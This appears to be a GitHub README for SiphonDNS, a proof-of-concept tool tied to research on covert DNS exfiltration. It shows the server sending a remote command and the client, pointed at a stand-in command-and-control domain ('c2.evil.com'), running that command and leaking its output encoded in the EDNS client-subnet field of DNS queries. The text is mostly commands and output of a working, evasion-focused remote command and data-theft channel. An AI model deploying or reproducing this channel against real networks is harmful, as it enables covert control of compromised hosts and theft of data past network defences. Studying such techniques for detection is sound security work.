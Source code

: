 # SiphonDNS

A PoC for techniques described in [this research](https://ttp.report/evasion/2025/02/03/siphondns-covert-dns-exfiltration.html).

Implements data exfiltration via non-standard sections of DNS. 

Server:
```
$ ./siphondns-server -method ecs
Starting DNS server
cmd> id
Command received
Receiving data............................................................................

Response:
 uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),118(wireshark),121(bluetooth),134(scanner),141(kaboxer)
```

Client:
```
./siphondns-client -domain 'c2.evil.com' -method ecs -resolver 8.8.8.8:53
Polling....OK
Executing command: id ... OK
Sending: 13.3.7.0 ... OK
Sending: 101.74.120.0 ... OK
Sending: 99.121.122.0 ... OK
Sending: 70.79.66.0 ... OK
Sending: 68.69.77.0 ... OK
Sending: 104.101.71.0 ... OK
Sending: 101.85.49.0 ... OK
Sending: 68.97.107.0 ... OK
Sending: 111.115.52.0 ... OK
Sending: 71.120.89.0 ... OK

...[SNIP]...

Sending: 104.74.119.0 ... OK
Sending: 65.65.47.0 ... OK
Sending: 47.57.56.0 ... OK
Sending: 57.107.71.0 ... OK
Sending: 1.84.0.0 ... OK
Sending: 7.3.13.0 ... OK
Done in 108 requests.
```
